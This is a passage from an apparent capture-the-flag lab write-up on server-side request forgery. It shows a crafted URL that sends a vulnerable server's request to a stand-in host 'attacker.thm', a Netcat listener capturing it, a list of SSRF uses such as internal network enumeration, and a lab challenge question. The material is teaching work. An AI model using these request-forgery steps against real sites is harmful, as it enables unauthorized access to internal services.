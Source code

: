 `https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC `

You could then just capture the contents of the request using Netcat:

```bash
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:

- Enumerate internal networks, including IP addresses and ports.

- Abuse trust relationships between servers and gain access to otherwise restricted services.

- Interact with some non-HTTP services to get remote code execution (RCE).

Let's quickly look at how we can use SSRF to abuse some trust relationships.

### Challenge

Navigate to `http://10.10.136.154:8087/`, where you'll find a simple web application. After exploring a bit, you should see an admin area, which will be our main objective. Follow the instructions on the following questions to gain access to the website's restricted area!

**Explore the website. What is the only host allowed to access the admin area?**

![Desktop View](/assets/img/OWASP/53.png){: width="700" height="400" }
